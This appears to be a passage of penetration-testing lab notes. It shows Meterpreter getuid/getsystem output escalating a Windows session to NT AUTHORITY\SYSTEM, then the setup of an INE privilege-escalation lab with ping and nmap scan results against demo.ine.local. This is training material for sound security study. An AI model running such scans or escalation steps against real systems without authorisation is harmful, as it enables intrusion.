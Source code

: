 `getuid`:
```
Server username: DOTNETGOAT\Administrator ←
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

---

### Privilege Escalation - Lab

In this lab, you will learn to find and exploit a vulnerable application to practice different privilege escalation techniques.

In this lab environment, the user will get access to a Kali GUI instance. A vulnerable application can be accessed using the tools installed on Kali on http://demo.ine.local.

Objective: Perform privilege escalation through Metasploit module and manually.

The best tools for this lab are:
- Metasploit Framework
- Nmap

---

Perform privilege escalation through Metasploit module:

`ping demo.ine.local -c 3`:
```
PING demo.ine.local (10.4.16.166) 56(84) bytes of data.
64 bytes from demo.ine.local (10.4.16.166): icmp_seq=1 ttl=125 time=9.33 ms
64 bytes from demo.ine.local (10.4.16.166): icmp_seq=2 ttl=125 time=9.16 ms
64 bytes from demo.ine.local (10.4.16.166): icmp_seq=3 ttl=125 time=9.14 ms

--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 9.137/9.208/9.329/0.085 ms
```

`nmap -sS demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-09 15:38 IST
Nmap scan report for demo.ine.local (10.4.16.166)
Host is up (0.010s latency).
Not shown: 990 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49165/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```
